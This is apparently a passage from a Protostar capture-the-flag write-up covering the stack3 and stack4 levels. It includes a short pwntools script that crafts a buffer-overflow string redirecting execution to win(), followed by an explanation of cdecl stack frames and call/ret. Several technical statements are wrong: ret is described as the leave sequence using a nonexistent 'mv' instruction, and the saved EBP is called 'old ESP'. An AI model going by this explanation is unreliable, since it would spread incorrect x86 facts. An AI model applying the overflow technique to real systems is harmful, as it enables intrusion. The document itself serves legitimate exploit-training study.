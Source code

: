 The extraction of the address for the function `win()` can also be solved easily with `pwntools`. The following code snipped will prepare the exploit-string for you. `p32()` is a handy function to get the address in the correct endianess. When not using pwntools you can use `struct.pack('<P', 0x08048480)` instead.

```language-python
#!/usr/bin/python

import struct
from pwn import *

e = ELF('./stack3')
win=e.symbols['win']

# print "A"*64+struct.pack('&lt;I', win)
print "A"*64+p32(win)
```


Stack4
======

First, we need some introduction on how functions are called to get an idea, on how can be able to influence the program flow.
Function calling on c-compiled linux binaries is following the `cdecl` calling convention. Let's have a look at the different cpu-registers involved in running a program.

- At first you have `EIP`. This one points to the instruction that
   should be executed.
- Then you have `EBP`. This is the base pointer of
   the stack (pointer to the first element of the current **stack
   frame**.
- And you have `ESP`, this points to the next free address on
   the stack.

The stack follows the concept of frames. So `EBP` does not point to the very base address of the whole stack, but to the the base of the current frame. A frame is created every time a function is being called.
If you call a function, three things need to happen. First you will need to remember where to continue when the function exists. Second, you have to create a new stack frame. This is simply done by setting `EBP` to a new value. This also means that you have to remember where the old stack frame starts (to restore `EBP` on function exit).

This tasks are solved in a very simple way. On function calling, the calling function saves the old <code class="language-json">EIP</code> to the stack. The called function pushes the old <code class="language-json">EBP</code> on the stack and sets it to the value of <code class="language-json">ESP</code>, thus "creating" a new stack frame. Then it reserves space for all local variables. The stack now shows: saved EIP, old ESP, local variables. The ESP points directly after the saved EIP.

On exit, the `old ESP` is restored from the current `EBP` (the base pointer, remember this points to the first element on the new frame where we have stored the old `ESP` previously) and afterwards we pop `EIP` from the stack (meaning: the values that `ESP` points to is saved in `EIP`, which is the old `EIP` which was saved by that calling function)

The two thinks are mostly done by the instructions `call` and `ret`.
A `call` is implicit a two operation thing. `EIP` is not directly accessible, so keep in mind the following description, even that it will not work in praxis.
```language-nasm
; call is equal to
push %eip  ; save eip to the stack
jmp addr   ; set eip to the address of the called function
```
The `ret` instruction also does multiple things.
```language-nasm
; ret is equal to
mv %esp, %ebp  ; set the stack pointer to the base pointer
               ; (esp now points to the first element (the saved ebp)
               ; of the current frame of win())
pop %ebp       ; pop one element from the stack into ebp
```

  [1]: https://exploit-exercises.com/protostar/stack0/
  [2]: https://exploit-exercises.com/protostar/stack2/
  [3]: https://en.wikipedia.org/wiki/Endianness
  [4]: https://exploit-exercises.com/protostar/stack3/
  [5]: https://exploit-exercises.com/protostar/stack4/